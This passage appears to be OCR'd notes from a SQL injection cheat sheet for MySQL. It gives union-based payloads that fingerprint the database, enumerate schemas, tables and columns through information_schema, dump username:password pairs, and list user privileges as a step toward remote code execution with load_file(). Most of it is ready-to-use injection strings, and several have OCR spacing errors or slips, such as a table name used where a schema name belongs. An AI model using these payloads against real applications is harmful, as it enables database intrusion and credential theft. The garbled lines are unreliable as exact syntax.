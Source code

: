 **finger Printing database**

using built in functions like : `version()` , `user()`, `database()` 

**Extracting Database Information**

In mysql 5 here is a read-only database named information_schema, which contains
data such as table names, column names, and the database’s privileges for all
other databases.
The access to this information is based on the privileges of
each MySQL user,

**The information_schema** contains several tables that provide information
about databases, tables, and columns for retrieving data:
**information_schema.schemata**: This table contains a list of all the databases
present on the MySQL server.
**information_schema.columns**: This table maintains the names of columns in
every table across all databases.

**Enumerating Databases**:
Query :
```
SELECT * FROM users WHERE id=-1 union select 1,schema_
name,3 from information_schema.schemata-- LIMIT 0,1;
```

**Enumerating Tables from the Database**
Query:
```
u n i o n + s e l e c t + n u l l , g r o u p _ c o n c a t ( t a b l e _ n a m e ) ,
n u l l + f r o m + i n f o r m a t i o n _ s c h e m a . t a b l e s + w h e r e + table_schema='security'--
```
**Extracting Columns from Table
Query:
```
Union select null,group_concat(column_name),null from
information_schema.columns where table_name="security"--
```
**Extracting Data from columns**
Query:

```
Union select null,group_concat(username,0x3a,password),
null from security--

```



### Sql injection to RCE :

**Retrieving Privilage information**

Example :

```
h t t p : / / 1 2 7 . 0 . 0 . 1 / s e a r c h . p h p ? s e a r c h = t m g m ' U N
I O N + S E L E C T + A L L + 1 , 2 , g r o u p _ c o n c a t ( p r i v i l e g e _
type),4+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES--+
```
in mysql utilize functions such as `load_file()` and `load data infile` cat retreive data
